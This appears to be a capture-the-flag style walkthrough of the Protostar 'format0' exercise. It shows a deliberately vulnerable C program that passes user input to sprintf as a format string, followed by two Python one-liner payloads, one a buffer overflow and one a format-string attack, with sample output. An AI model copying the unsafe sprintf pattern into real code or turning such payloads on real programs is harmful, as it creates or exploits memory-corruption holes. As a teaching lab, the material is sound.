 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

This looks like a buffer overflow problem.

Type the following: `python -c "print 'a'*64+'\xef\xbe\xad\xde'" | xargs ./format0`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print 'a'*64+'\xef\xbe\xad\xde'" | xargs ./format0
you have hit the target correctly :)
```

Method 2 (preferred):

Type the following: `python -c "print '%64x\xef\xbe\xad\xde'" | xargs ./format0`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print '%64x\xef\xbe\xad\xde'" | xargs ./format0
you have hit the target correctly :)
```

